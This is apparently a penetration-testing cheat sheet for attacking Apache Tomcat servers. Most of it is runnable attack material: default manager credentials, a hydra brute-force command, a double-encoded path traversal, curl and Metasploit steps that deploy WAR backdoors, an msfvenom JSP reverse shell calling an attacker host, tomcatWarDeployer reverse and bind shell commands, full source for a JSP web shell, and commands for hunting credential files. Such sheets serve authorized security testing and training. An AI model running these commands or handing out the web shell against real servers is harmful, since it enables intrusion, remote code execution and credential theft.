 Tomcat

It usually runs on port 8080
Avoid to run with root

In order to not run Tomcat with root a very common configuration is to set an Apache server in port 80/443 and, if the path requested matches a regexp, the request is send to the Tomcat running in other port. 
Username Enum

In some versions prior to Tomcat6 you could enumerate users:

msf> use auxiliary/scanner/http/tomcat_enum

Default credentials

The most interesting path of Tomcat is /manager/html, inside that path you can upload and deploy war files (execute code). But  this path is protected by basic TTP auth, the most common credentials are:

    admin:admin

    tomcat:tomcat

    admin:<NOTHING>

    admin:s3cr3t

    tomcat:s3cr3t

    admin:tomcat

You could test these and more using:

msf> use auxiliary/scanner/http/tomcat_mgr_login

Bruteforce

This could be needed.

hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html

Vulns

A well-known vulnerability to access the application manager  is mod_jk in CVE-2007-1860, that allows Double URL encode path traversal.

In order to access to the management web of the Tomcat go to: pathTomcat/%252E%252E/manager/html

Take into account that to upload the webshell you could need to use the double urlencode trick and send also a cookie and/or a SSRF token.
To access to backdoor you could also need to use the double urlencode trick.
RCE

Finally, if you have access to the Tomcat Web Application Manager, you can upload and deploy a .war file (execute code).
Limitations

You will only be able to deploy a WAR if you have enough privileges (roles: admin, manager and manager-script). Those details can be find under tomcat-users.xml usually defined in /usr/share/tomcat9/etc/tomcat-users.xml (it vary between versions) (see POST section).

# /!\ tomcat7 and above uses /manager/text/undeploy and /manager/text/deploy paths
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed
​
# deploy under "path" context path
curl --upload-file monshell.war "http://tomcat:Password@localhost:8080/manager/deploy?path=/monshell"
​
# undeploy
curl "http://tomcat:Password@localhost:8080/manager/undeploy?path=/monshell"

Metasploit

use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit

MSFVenom Reverse Shell

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=80 -f war -o revshell.war

Then, upload the revshell.war file and access to it (/revshell/)
Bind and reverse shell with tomcatWarDeployer.py​

In some scenarios this doesn't  work (for example old versions of sun)
Download

git clone https://github.com/mgeeky/tomcatWarDeployer.git

Reverse shell

./tomcatWarDeployer.py -U <username> -P <password>-H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/

Bind shell

./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/

Using Culsterd​

clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows

Manual method - Web shell

Create index.jsp with this content:

<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
​

$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
webshell.war is created

You could also install this (allows upload, download and command execution): http://vonloesch.de/filebrowser.html​
POST

Name of tomcat credentials file is tomcat-users.xml 

find / -name tomcat-users.xml 2>/dev/null

Other ways to gather tomcat credentials:

msf> use post/multi/gather/tomcat_gather
msf> use post/windows/gather/enum_tomcat
